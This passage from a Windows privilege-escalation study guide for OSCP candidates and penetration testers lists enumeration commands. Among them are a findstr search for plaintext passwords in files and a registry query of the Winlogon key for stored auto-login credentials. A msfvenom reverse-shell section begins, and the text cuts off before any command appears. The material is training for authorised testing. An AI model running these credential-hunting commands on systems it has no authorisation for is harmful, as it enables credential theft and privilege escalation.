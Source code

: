         sc qc myservice

Methodology and Tactics:
The approach involves using these commands to enumerate services and their configurations. By finding unquoted service paths or weak service permissions, an attacker can manipulate the service to execute malicious code under higher privileges.
4. Sushant 747's Guide

Resource: Sushant 747's Guide

Overview:
This guide is a comprehensive resource for OSCP candidates and penetration testers, focusing on Windows privilege escalation techniques.

Commands and Methodology:

    Enumerating Installed Programs and Services:
        wmic product get name,version: Lists all installed software, which can help in identifying vulnerable versions of software.

        bash

    wmic product get name,version

Searching for Passwords in Files:

    findstr /si password *.txt: Searches for the string "password" in all .txt files in the current directory, often revealing plaintext passwords.

    bash

    findstr /si password *.txt

Checking Registry for Saved Credentials:

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon": Queries the Winlogon registry key, which may store plaintext credentials for auto-login.

    bash

        reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

Methodology and Tactics:
This guide emphasizes thorough enumeration of the target system. By using commands that search for sensitive information in files and the registry, testers can often find passwords or other credentials that lead to further exploitation.
5. Gaining a Foothold

Resource: msfvenom

Overview:
Gaining an initial foothold on a system often involves using msfvenom to create custom payloads that can establish a connection between the attacker and the target.

Commands and Methodology:

    Creating a Reverse Shell:
        msfvenom: Generates a payload that can be executed on the target system to open a reverse shell, allowing the attacker to gain control.

        bash
